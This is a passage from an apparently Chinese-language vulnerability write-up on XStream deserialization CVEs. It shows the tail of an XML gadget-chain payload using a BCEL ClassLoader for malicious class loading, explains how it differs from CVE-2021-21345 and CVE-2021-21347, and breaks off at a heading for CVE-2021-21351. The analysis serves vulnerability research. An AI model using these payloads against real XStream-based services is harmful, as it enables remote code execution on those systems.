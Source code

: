 ```
                  <packages/>
                  <nativeLibraries/>
                  <assertionLock class='com.sun.org.apache.bcel.internal.util.ClassLoader' reference='..'/>
                  <defaultAssertionStatus>false</defaultAssertionStatus>
                  <classes/>
                  <ignored__packages>
                    <string>java.</string>
                    <string>javax.</string>
                    <string>sun.</string>
                  </ignored__packages>
                  <repository class='com.sun.org.apache.bcel.internal.util.SyntheticRepository'>
                    <__path>
                      <paths/>
                      <class__path>.</class__path>
                    </__path>
                    <__loadedClasses/>
                  </repository>
                  <deferTo class='sun.misc.Launcher$ExtClassLoader' reference='../parent'/>
                </processorCL>
              </iterator>
              <type>KEYS</type>
            </e>
            <in class='java.io.ByteArrayInputStream'>
              <buf></buf>
              <pos>0</pos>
              <mark>0</mark>
              <count>0</count>
            </in>
          </is>
          <consumed>false</consumed>
        </dataSource>
        <transferFlavors/>
      </dataHandler>
      <dataLen>0</dataLen>
    </com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data>
    <com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data reference='../com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'/>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

该漏洞的整个利用链和CVE-2021-21345如出一辙，不同的地方在于，最后的加载恶意Class的Classloader不再使用URLClassloader去远程加载，而是采用了com.sun.org.apache.bcel.internal.util.ClassLoader，这里相信对FastJson有了解的同学应该不陌生，这里使用了BCEL的方式来进行恶意代码执行

![](https://images.seebug.org/content/images/2021/04/06/1617677146000-36.png-w331s)

但是整个利用链和CVE-2021-21347是一样的，所以这里也就不重复赘述了。

5\. CVE-2021-21351
------------------
